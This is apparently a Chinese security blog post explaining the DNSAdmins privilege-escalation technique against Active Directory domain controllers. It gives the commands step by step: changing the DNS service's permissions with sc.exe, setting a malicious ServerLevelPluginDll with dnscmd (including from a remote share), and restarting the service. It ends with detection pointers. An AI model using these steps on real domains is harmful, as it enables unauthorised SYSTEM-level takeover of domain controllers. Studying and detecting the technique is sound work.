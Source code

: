 ```yaml
---
title: DNSAdmin
date: 2020-12-31 23:59:55 +0800
categories: [域安全, TA0004权限升级]
tags: [DNSAdmin, TA0004权限升级]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

感染DNSAdmin组用户，为DNS服务配置恶意ServerLevelPluginDll，DNS服务会以system权限加载该Dll，从而达到提权目的。



**参考**：

https://github.com/kazkansouh/DNSAdmin-DLL

[Feature, not bug: DNSAdmin to DC compromise in one line](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

[Abusing DNSAdmins privilege for escalation in Active Directory](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)



## 0x01 DNSAdmin原理

域中DNS遵循[[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a?redirectedfrom=MSDN)协议，该协议提供了一组RPC接口用于远程访问和管理DNS服务器。通常DNS Server是DC，它运行着DNS服务，对应服务名“dns”，进程名“dns.exe”。





![image-20210102184724429](/assets/img/image-20210102184724429.png)

![image-20210102184906288](/assets/img/image-20210102184906288.png)

如上面文档中提到的，如果指定了ServerLevelPluginDll，DNS服务会加载对应的Dll，并调用该Dll实现的DNS查询函数等。DNSAdmins组有权限配置ServerLevelPluginDll (Domain Admins更加可以，但这样显示不出提权效果了)，一旦dll以system权限被加载，即可提权成功；dll中可以实现反弹shell、添加用户到管理员组等命令。

如果Dll加载失败，DNS服务也会启动失败，为此dll中必须实现以下三个函数。

```
DnsPluginInitialize
DnsPluginCleanup
DnsPluginQuery
```

以下是`mimilib.dll`相关实现，它会在每次DNS Server收到DNS Query时记录Query内容。也可以在`DnsPluginInitialize`或`DnsPluginQuery`中加入命令执行等。

![image-20210102190020537](/assets/img/image-20210102190020537.png)





## 0x02 DNSAdmin利用

1. 配置重启服务权限，[参考](https://github.com/kazkansouh/DNSAdmin-DLL#lab-environment)

默认情况下DNSAdmins中的用户是不能远程停止、开启DNS Server的，需要在DC上为指定用户SID添加权限。

```
//This will grant `CC`, `LC`, `RP` and `WP` which correlate to `sc` commands: `qc`, `query`, `start`, `stop`
(A;;CCLCRPWP;;;S-1-5-21-700907644-1504022619-419926652-1101)
```



```
> sc.exe sdset "dns" "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;CCLCRPWP;;;S-1-5-21-2475887593-94489213-2292866110-1103)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

```
PS C:\Users\Administrator> sc.exe sdshow dns

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;CCLCRPWP;;;S-1-5-21-2475887593-94489213-2292866110-1103)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```





2. 为DNS服务配置ServerLevelPluginDll

此命令在DNSAdmins用户登录的机器上执行即可，dnscmd.exe不是自带的，需要手动拷贝。因为是调用的DNS RPC 接口，所以DC上DNS服务必须是启动的。

```
//dll已经位于DNS Server上
dnscmd.exe /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
```

```
//dll位于DNS Server可以访问的远程地址上，这里试过\\win10-pc\c$\DNSAdmin-DLL.dll，加载不成功
dnscmd.exe /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```



设置成功后，会生成以下注册表：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`



3. 重启DNS服务，dll被加载。

```
C:\> sc \\ringdc-pc stop dns
C:\> sc \\ringdc-pc start dns
```

也可以参考[域渗透——利用dnscmd在DNS服务器上实现远程加载Dll](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8dnscmd%E5%9C%A8DNS%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E5%AE%9E%E7%8E%B0%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BDDll/)中，直接Pass the Hash，以Domain Admins用户身份重启服务，这样就不需要做第一步了。



## 0x03 检测

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

DNS Server Log Event ID 150 for failure and 770 for success

Microsoft-Windows-DNS-Server/Audit Log Event ID 541 for both success and failure.